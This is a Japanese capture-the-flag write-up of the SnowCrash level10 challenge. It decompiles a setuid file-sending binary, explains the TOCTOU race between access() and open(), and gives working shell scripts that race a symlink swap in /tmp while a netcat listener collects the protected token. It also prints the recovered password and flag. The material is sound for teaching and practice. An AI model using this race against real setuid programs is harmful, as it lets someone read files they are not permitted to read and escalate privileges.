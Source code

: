 ## ~に存在するファイルを確認
```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## ghidraでdisassする

```c
void main(int ac, char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *file_name;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;

  if (ac < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  file_name = (char *)argv[1];
  __cp = (char *)argv[2];

  iVar2 = access((char *)argv[1],R_OK);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24, 0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(file_name,O_RDONLY);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      file_name = strerror(*piVar5);
      printf("Unable to read from file: %s\n",file_name);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",file_name);
  }

  return;
}
```
## 関数のポイント
`access((char *)argv[1],R_OK);` は実ユーザーでファイル読み取り権限を確認するため、`level10`ユーザーが`token`を引数に渡すとでエラーになる。
一方、`open(file_name,O_RDONLY);` は実効ユーザーである`flag10` の権限でファイルアクセス権限を確認する。
したがって、`access((char *)argv[1],R_OK);`をうまく突破すれば`token`の中身を確認することができる。

`TOCTOU`というのがある。チェックと使用タイミングのズレがあると問題になる。つまり、`open` と`read` の間に脆弱性がある。
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
## エクスプロイト

### シンボリックリンクを操作するスクリプト
１つ目のスクリプトは、実ユーザー権限がある`/tmp/sym_token`を読み込ませて、`access`関数を突破する。
その後、`read`関数の前までに`/tmp/sym_token` と`token`をシンボリックリンクし、`token`を`write`する。

```sh
echo '#!/bin/bash' > /tmp/script
echo 'while true; do' >> /tmp/script
echo '> /tmp/sym_token' >> /tmp/script
echo './level10 /tmp/sym_token  127.0.0.1 &' >> /tmp/script
echo 'ln -sf /home/user/level10/token /tmp/sym_token' >> /tmp/script
echo 'rm -f /tmp/sym_token' >> /tmp/script
echo 'done' >> /tmp/script

chmod +x /tmp/script
```

### 受信した文字列をファイルに保存するスクリプト
```sh
echo '#!/bin/bash' > /tmp/script1
echo '> /tmp/pw' >> /tmp/script1
echo 'while true; do' >> /tmp/script1
echo 'nc -l 6969 >> /tmp/pw' >> /tmp/script1
echo 'done' >> /tmp/script1

chmod +x /tmp/script1
```
### 実行
タイミングを完璧に制御できないため、試行回数でカバーする必要がある。
```sh
/tmp/script > /dev/null 2>&1 &
/tmp/script1 > /dev/null 2>&1 &

# 少し経ったらプロセスを終了する
pkill -f /tmp/script
pkill -f /tmp/script1
```

### 確認する
```sh
grep -v '\.\*\( \)*' /tmp/pw
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
